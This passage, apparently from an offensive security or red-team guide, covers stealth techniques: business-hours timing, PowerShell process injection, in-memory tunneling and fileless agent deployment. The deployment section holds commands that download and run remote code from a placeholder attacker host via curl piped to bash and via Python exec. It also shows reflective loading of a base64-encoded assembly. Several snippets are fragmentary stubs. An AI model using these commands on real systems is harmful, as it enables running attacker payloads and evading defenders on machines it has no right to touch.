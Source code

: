 #### Session Timing Patterns:

```python
import datetime

def is_business_hours():
    now = datetime.datetime.now()
    return (now.weekday() < 5 and 
            9 <= now.hour <= 17)

def wait_for_business_hours():
    while not is_business_hours():
        time.sleep(3600)  # Check every hour
```

#### Process Injection for Stealth:

```powershell
# PowerShell process injection
$code = @"
[DllImport("kernel32.dll")]
public static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, uint dwProcessId);
"@

Add-Type -MemberDefinition $code -Name Win32 -Namespace Win32Functions
```

### 12.3 Memory-Only Operations

#### Fileless Agent Deployment:

```bash
# Linux memory execution
curl -s http://attacker/agent | bash

# PowerShell reflective loading
$bytes = [System.Convert]::FromBase64String($agent_b64)
$assembly = [System.Reflection.Assembly]::Load($bytes)
$assembly.EntryPoint.Invoke($null, @(,$args))

# Python bytecode execution
exec(compile(requests.get('http://attacker/agent.py').text, '<string>', 'exec'))
```

#### In-Memory Tunneling:

```c
// C implementation for memory-resident tunneling
#include <windows.h>
#include <winsock2.h>

DWORD WINAPI TunnelThread(LPVOID lpParam) {
    // Socket creation and traffic relay in memory
    SOCKET sock = socket(AF_INET, SOCK_STREAM, 0);
    // Implementation details...
    return 0;
}

int main() {
    CreateThread(NULL, 0, TunnelThread, NULL, 0, NULL);
    return 0;
}
```
